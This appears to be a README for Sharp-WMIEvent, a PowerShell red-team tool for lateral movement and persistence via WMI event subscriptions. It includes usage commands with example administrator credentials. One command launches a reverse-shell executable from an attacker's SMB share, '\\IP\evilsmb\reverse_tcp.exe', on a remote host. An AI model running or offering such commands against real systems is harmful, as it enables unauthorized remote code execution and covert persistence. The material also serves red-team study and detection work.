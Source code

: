 # Sharp-WMIEvent

## Synopsis

The script realizes intranet lateral movement and permission persistence through WMI event subscription.

## Description

WMI provides a robust event system that can be used to respond to almost any event that occurs on the operating system. For example, when a process is created, a specific action can be performed by subscribing to WMI events. Among them, the specific conditions for triggering an event are called "Event Filter", such as user login, new process creation, etc.; the response to the occurrence of a specified event is called "Event Consumer", Including a series of specific operations, such as running scripts, recording logs, sending emails, etc. When deploying event subscriptions, you need to build Filter and Consumer separately and bind them together. For details, please refer to the relevant documents provided by Microsoft.

Hackers can use the capabilities of WMI to deploy permanent event subscriptions on remote hosts and execute arbitrary code or other actions when that event occurs. ActiveScriptEventConsumer and CommandLineEventConsumer in the event consumption class are mainly used. These two Event Consumers can execute any payload on a remote host in a fileless manner. This technique is mainly used to complete permissions persistence on the target system, and can also be used for lateral movement, and requires user credentials that provide administrator permissions on the remote host. For more details, please read the relevant articles in Link by yourself.

## Usage

Execute attack payload in SMB share.

```powershell
PS C:\Users\Administrator> Import-Module .\Sharp-WMIEvent.ps1

PS C:\Users\Administrator> Sharp-WMIEvent -ConsumerType Command -ComputerName 10.10.10.19 -Domain Domain.com -Username Administrator -Password Admin@123 -Command "C:\Windows\System32\cmd.exe /c \\IP\evilsmb\reverse_tcp.exe" -FilterName Test -ConsumerName Test
[+] Creating The WMI Event Filter
[+] Creating The WMI Event Consumer
[+] Creating The WMI Event Filter And Event Consumer Binding
[+] [+] Triggering The Target Process
[+] Cleaning Up The Event Subscriptions
```

Execute the attack payload in the local payload.js script file.

```powershell
PS C:\Users\Administrator>Import-Module .\Sharp-WMIEvent.ps1

PS C:\Users\Administrator>Sharp-WMIEvent -ConsumerType JScript -ComputerName 10.10.10.19 -Domain Domain.com -Username Administrator -Password Admin@123 -ScriptPath C:\Folder\Sharp-WMIEvent\payload.js -FilterName Test -ConsumerName Test
[+] Creating The WMI Event Filter
[+] Creating The WMI Event Consumer
[+] Creating The WMI Event Filter And Event Consumer Binding
[+] [+] Triggering The Target Process
[+] Cleaning Up The Event Subscriptions
```

## Link

https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/

https://github.com/lengjibo/RedTeamTools/blob/master/windows/WMIShell
